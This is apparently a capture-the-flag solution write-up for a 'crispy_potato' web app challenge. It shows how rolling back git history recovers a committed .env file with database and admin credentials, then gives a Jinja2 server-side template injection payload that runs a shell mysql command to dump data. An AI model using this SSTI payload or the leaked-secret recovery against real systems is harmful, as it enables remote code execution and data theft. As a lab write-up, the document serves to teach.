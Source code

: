 ## Solution

# Fork this Repo


There will be two commits.

```sh
$ git log
commit 974b2e09b19325bde3c35a058f4d537f3f4d848d (HEAD -> master)
Author: Cloud Village <dev@cloud-village.org>
Date:   Mon Mar 25 00:39:54 2024 +0000

    whoops, remove prod credentials

commit 967428759931756b7d7934489d10c93901c8304d (origin/master, origin/HEAD)
Author: Cloud Village <dev@cloud-village.org>
Date:   Sat Mar 23 13:53:13 2024 -0700

    init commit
```

So you can rollback to the first commit that has the checked in credentials that you can use to login to the webapp, as well as the database.
```sh
$ git reset --hard HEAD^
HEAD is now at 09d2695 init commit
$ cat .env
SECRET_KEY=secretkey
DATABASE_PATH=mariadb+pymysql://groot:1crispy2potatos3are4delicious!@127.0.0.1/crispy_potato?charset=utf8mb4
SCRIPT_NAME=/crispy_potato
INIT_USERNAME=CloudVillageCrispyPotatoAdmin
INIT_PASSWORD=000loud1111Village^Crispy?Potato2222Password98765
```

On the site, you can use SSTI in the search box to expose the flag. Here's one string you could provide to it.

```jinja2
{{request.application.__globals__.__builtins__.__import__('os').popen('mysql -h 127.0.0.1 -ugroot -p1crispy2potatos3are4delicious! crispy_potato -e "SELECT title FROM recipes;"').read()}}
```

![Screenshot](screenshot.png)
